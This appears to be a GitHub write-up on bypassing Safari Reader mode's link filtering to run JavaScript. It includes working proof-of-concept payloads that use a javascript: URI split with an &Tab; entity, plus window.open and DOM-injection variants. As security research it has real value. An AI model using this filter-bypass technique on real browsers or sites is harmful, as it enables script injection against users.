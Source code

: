 # Safari-Reader-Preview-Javascript-code-execution

Reading mode is a feature implemented in most of the browsers that allow users to read articles in a clutter-free view i.e rendering a page in a way that will be easy to read without any distraction.

Have you ever wonder how browsers achieve it? During the rendering process, browsers remove all unnecessary code, like javaScript, iframes, other embedding elements etc. 

Let's try to run a sample code code that embeds a few elments to see how safari reacts
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Safari Reader Preview JavaScript Code execution</title>
</head>
<body>
    <h2 style="color: red;">macOS. It’s why there’s nothing else like a Mac</h2>
    <p>macOS is the operating system that powers every Mac. It lets you do things you simply can’t with other computers. That’s because it’s designed specifically for the hardware it runs on — and vice versa. macOS comes with an entire suite of beautifully designed apps. It works hand in hand with iCloud to keep photos, documents and other stuff up to date on all your devices. It makes your Mac work like magic with your iPhone and other Apple devices. And it’s been built from the ground up with privacy and security in mind.</p>
    <p>macOS is the operating system that powers every Mac. It lets you do things you simply can’t with other computers. That’s because it’s designed specifically for the hardware it runs on — and vice versa. macOS comes with an entire suite of beautifully designed apps. It works hand in hand with iCloud to keep photos, documents and other stuff up to date on all your devices. It makes your Mac work like magic with your iPhone and other Apple devices. And it’s been built from the ground up with privacy and security in mind.</p>
    <p>macOS is the operating system that powers every Mac. It lets you do things you simply can’t with other computers. That’s because it’s designed specifically for the hardware it runs on — and vice versa. macOS comes with an entire suite of beautifully designed apps. It works hand in hand with iCloud to keep photos, documents and other stuff up to date on all your devices. It makes your Mac work like magic with your iPhone and other Apple devices. And it’s been built from the ground up with privacy and security in mind.</p>
    <p>macOS is the operating system that powers every Mac. It lets you do things you simply can’t with other computers. That’s because it’s designed specifically for the hardware it runs on — and vice versa. macOS comes with an entire suite of beautifully designed apps. It works hand in hand with iCloud to keep photos, documents and other stuff up to date on all your devices. It makes your Mac work like magic with your iPhone and other Apple devices. And it’s been built from the ground up with privacy and security in mind.</p><br>
    <a href="https://www.apple.com/">Source: Apple.com</a><br><br>
    <iframe src="https://www.bing.com" frameborder="0"></iframe>
    <embed src="https://www.bing.com" type="">
    <object data="https://www.bing.com" type=""></object>
    <p onmouseover="alert(1)" style="color: red;">alert(1)</p>
    <script>alert(1);</script>
</body> 
</html>     
```
And this is how our page rendered in safari
![1](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2012-20-44.png)

Now if you see a tiny lined button at the start of the address bar, that is what indicates whether the reader mode is available or not for the particular webpage. 
Let's put the document in reading mode to see how it looks
![2](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2012-28-52.png)

As expected safari created a nice clutter-free view by modifying the DOM. Let's look at the DOM to check what exactly happened.
![3](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2012-32-11.png)

And as you may notice `iframe`, `embed`, `object`, `script` and `onmouseover` is removed. 
But what is interesting is a hyperlink that points to apple.com, so as you click on the link you will be redirected to apple.com.

So since the anchor tag is allowed, the next idea that came to my mind is to use javascript URI
Let's modify the last few lines our sample code and to see what happens.

```
<a href="https://www.apple.com/">Source: Apple.com</a><br>
<a href="javascript:alert(1)">Evil link</a>   
```
Now safari removed the link that points to javascript URI while the link to apple.com is same as can be seen in below snapshot

![4](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2012-45-29.png)

After I came across this blogpost [Safari Reader UXSS](https://alf.nu/SafariReaderUXSS) from `Erling ` which shows a bypass that URLs with `javascript:` are filtered, but ones with `JaVASCRiPT:` or  `javaScript:` are not.

So this behaviour is already fixed by the safari team, Let's try to bypass it again. first thing first is using HTML5 entities to build a link with javascript URI, the first and most obvious payload will be 
```
<a href="jav&Tab;ascript:alert(1)">Evil link</a>
```
And it worked! 

![5](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2013-15-27.png)

But, if you try to click on the link it will not work. even there no error in the console as displayed in below image

![6](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2013-20-32.png)

Seems there is another challenge for me. Next, the idea is to find out what is happening here. 

To find out why our javascript code is not working we can define an invalid javascript code to identify whether the browser is interpreting it or not. 
Let's again modfiy a few lines in our sample code as follows
```
<a href="https://www.apple.com/">Source: Apple.com</a><br>
<a href="jav&Tab;ascript:invalidFunction();">Evil link</a>
```
And as you can see below it throws a nice error

![7](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2013-30-53.png)

Now what we can conclude is that somehow browser is identifying certain javascript code and will not allows us to execute it. 

I have tested several functions during this time and figured out that at least `window.open` is working so let's modify our sample code and check the results

Modfied code
```
<a href="https://www.apple.com/">Source: Apple.com</a><br>
<a href="jav&Tab;ascript:var a = window.open('');a.alert(window.location.href)">Evil link</a><br>
```

![8](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2016-15-21.png)

As you can see the javascript code is executing in context to `safari-reader` which is a pseudo-protocol used in safari reading mode. 

We can also do funny stuff to disturb the user to break safari's promise.
Let's again remodify the last few lines and see how it works
```
<a href="https://www.apple.com/">Source: Apple.com</a><br>
<a href="jav&Tab;ascript:var p = document.createElement('p');p.innerHTML='<marquee scrollamount=25><img src=https://cdn.pixabay.com/photo/2017/10/26/20/00/pumpkin-2892303_1280.jpg height=400 width=400></marquee>';document.documentElement.appendChild(p)">Evil link</a><br>
```
and it will create a annoying moving pumkin image on the screen as displayed in the below screenshot

![9](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2016-54-35.png)

Check the video proof of concept 
![10](https://youtu.be/sd5dX-2a97E)

Now since we can execute javascript code in reader mode, I tried to escalate it to universal cross-site scripting(uXSS) but could not get success. 

